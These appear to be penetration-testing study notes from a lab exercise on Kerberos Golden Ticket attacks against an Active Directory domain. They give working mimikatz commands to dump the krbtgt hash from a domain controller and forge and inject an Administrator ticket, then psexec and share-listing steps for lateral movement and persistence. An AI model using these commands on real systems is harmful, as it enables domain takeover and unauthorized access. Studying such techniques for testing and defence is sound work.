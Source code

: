 ## Golden Ticket Attacks
- If you have the hash of the krbtgt hash you can generate Kerberos TGT tickets
- You can request access to any resource or system on the domain using the ticket granting service

### Attack
- Run mimikatz on DC
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`

  ![image](https://github.com/user-attachments/assets/a7e442b6-02dc-4831-8e2f-33a692438540)

- Copy SID and NTLM and past them into note
- Pass the ticket: `kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-4007098431-2384469716-464634730 /krbtgt:c4678a06e104188881a4410d52dfde19 /id:500 /ptt`

  ![image](https://github.com/user-attachments/assets/37969a1a-3bfe-482b-830c-3bda654c57fb)

- Get a cmd: `misc:cmd`
- List contents of directory on another machine `dir \\THEPUNISHER\c$`

  ![image](https://github.com/user-attachments/assets/45f8f3e9-a197-4988-ab22-0608e5500c8b)

- Can gain access to other machines with psexec `psexec.exe <machine> cmd.exe`
- Golden ticket is persistence
- Not everyone is picking up golden tickets
